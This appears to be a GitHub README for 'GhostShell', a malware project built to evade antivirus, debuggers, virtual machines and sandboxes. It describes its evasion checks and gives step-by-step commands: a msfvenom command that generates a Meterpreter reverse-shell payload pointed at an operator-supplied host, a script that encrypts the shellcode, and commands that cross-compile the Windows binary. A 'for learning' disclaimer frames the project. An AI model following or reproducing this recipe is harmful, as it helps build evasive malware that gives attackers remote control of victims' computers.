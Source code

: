 <div align="center">
  <h1 align="center"> GhostShell </h1>
  <p align="center"> In this malware, are used some techniques to try bypass the AVs, VMs, and Sandboxes, with only porpuse to learning more. I'm not responsible for your actions. </p>


  <p align="center"> 
    <img alt="license" src="https://img.shields.io/github/license/ReddyyZ/GhostShell"/>
    <img alt="last-commit" src="https://img.shields.io/github/last-commit/ReddyyZ/GhostShell"/>
    <img alt="made-by" src="https://img.shields.io/badge/made%20by-ReddyyZ-red"/>
    <img alt="size" src="https://img.shields.io/github/repo-size/ReddyyZ/GhostShell"/>
    <img alt="binary-size" src="https://img.shields.io/badge/binary%20size-46%2C8%20KB-blue"/>
  </p>
  <p align="center">
    <a href="https://github.com/ReddyyZ"> <img alt="followers" src="https://img.shields.io/github/followers/ReddyyZ?style=social"/> </a>
    <a href="https://github.com/ReddyyZ/GhostShell/stargazers"><img alt="stars" src="https://img.shields.io/github/stars/ReddyyZ/GhostShell?style=social"/></a>
    <a href="https://github.com/ReddyyZ/GhostShell/network/members"><img alt="forks" src="https://img.shields.io/github/forks/ReddyyZ/GhostShell?style=social"/> </a>
    <a href="https://github.com/ReddyyZ/GhostShell/watchers"><img alt="watchers" src="https://img.shields.io/github/watchers/ReddyyZ/GhostShell?style=social"/> </a>
  </p>
  
</div>

<p align="center">
  <a href="#bomb-bypass-techniques"> Bypass Techniques </a> |
  <a href="#radioactive-generating-the-shellcode"> Generating the Shellcode </a> |
  <a href="#computer-how-to-compile-for-windows-on-linux"> How to compile for Windows on Linux </a>
</p>


- ## :bomb: Bypass Techniques

### **Anti-Debugger**

To try bypass the Debuggers, I'm using the "IsDebuggerPresent()" of "Windows.h" librarie to checks if a debugger is running.

### **Anti-VM / Anti-Sandbox**

- **Enumerate Process Function**

  Enumerates all process running on the system, and compares to the process in the black-list, if found a process and this is equal to any process in the black-list returns -1 (identified).

- **Sleep Acceleration Check Function**

  First, gets the current time, and sleeps 2 minutes, then, gets the time again, and compare, if the difference is less than 2, returns -1 (identified).

- **Mac Address Check Function**

  Gets the system mac address and compare to the macs, in the black-list, if the system mac address is equal to any mac in the black-list returns -1 (identified).


- ## :radioactive: Generating the Shellcode
![Generating](/assets/generating%20shellcode.gif)

To generate the shellcode type in the terminal: ``` msfvenom -p windows/meterpreter/reverse_shell lhost=(IP) lport=(PORT) -f c ```, copy the shellcode generated and encrypt it.                                                                                                 

To encrypt shellcode use the encrypt_shellcode script.                                                                                   
On linux type: ``` ./encrypt_shellcode e "(KEY, ex: "\xda\xe6\x1d\x5c\x9v\x8d") "(shellcode)"" ```                                      
On windows type: ``` encrypt_shellcode.exe e "(KEY, ex: "\xda\xe6\x1d\x5c\x9v\x8d") "(shellcode)"" ```



- ## :computer: How to compile for Windows on Linux

To compile for Windows on Linux, first, install mingw-w64: ``` sudo apt-get install mingw-w64 ```, then, to compile for 32 bits: ``` i686-w64-mingw32-gcc -o main.exe main.c -l psapi -static ```, and to 64 bits: ``` x86_64-w64-mingw32 -o main.exe main.c -l psapi -static ```

-  ## :book: Credits

Credits for https://github.com/rastating, the encrypt_shellcode is based on a post of your github.io: https://rastating.github.io/creating-a-shellcode-crypter/



- ## :memo: License

This project is under MIT license. See at here [LICENSE](/LICENSE.md) for more informations.
